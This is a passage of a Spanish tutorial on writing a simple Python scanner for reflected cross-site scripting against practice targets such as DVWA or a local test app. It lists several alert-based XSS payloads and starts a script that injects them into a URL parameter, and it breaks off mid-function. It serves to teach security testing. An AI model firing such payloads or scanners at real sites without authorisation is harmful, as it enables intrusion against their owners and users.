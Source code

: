 1. Python 3
2. Librerías: `requests`, `BeautifulSoup` (para analizar HTML)
3. Un entorno de práctica (usaremos [DVWA](http://www.dvwa.co.uk/) o [bWAPP](http://www.itsecgames.com/)) **o un sitio controlado local**

---

### 🛠️ Instalación

#### Paso 1: Crear el entorno

```bash
mkdir xss-scanner
cd xss-scanner
python -m venv venv
source venv/bin/activate  # En Windows: venv\Scripts\activate
```

#### Paso 2: Instalar librerías

```bash
pip install requests beautifulsoup4
```

---

### 💡 Ejemplo de carga XSS

```html
<script>
  alert("XSS");
</script>
```

---

### 🧠 ¿Qué vamos a hacer?

- Cargar una URL con parámetros
- Inyectar un script (`<script>alert('XSS')</script>`)
- Leer la respuesta HTML
- Verificar si se refleja el payload en el HTML

---

### ✅ Código completo de escaneo básico de XSS

```python
import requests
from bs4 import BeautifulSoup
import urllib.parse

# Lista de payloads XSS comunes
payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "'\"><svg/onload=alert('XSS')>",
]

# URL objetivo con un parámetro vulnerable (ejemplo)
# Simula que el parámetro "q" podría ser vulnerable
base_url = "http://localhost/vulnerable_app/search.php?q="

def test_xss(url, payloads):
    for payload in payloads:
        # Codificamos el payload en la URL
        target = url + urllib.parse.quote(payload)
```
